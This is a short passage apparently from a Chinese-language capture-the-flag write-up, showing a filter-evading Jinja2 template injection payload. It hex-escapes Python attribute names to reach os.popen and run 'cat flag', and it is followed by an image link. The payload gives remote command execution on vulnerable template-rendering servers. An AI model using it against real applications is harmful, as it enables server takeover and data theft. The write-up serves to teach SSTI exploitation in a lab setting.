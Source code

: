 转换过后的

```bash
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(133)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")('popen')('cat flag')|attr("read")()}}
```

[![在这里插入图片描述](assets/1698900310-e619fc7f4d6fde8a3283e9fd79c62dc7.png)](https://storage.tttang.com/media/attachment/2022/08/14/949d68da-8f0d-40cf-8629-0c1b3878c960.png)
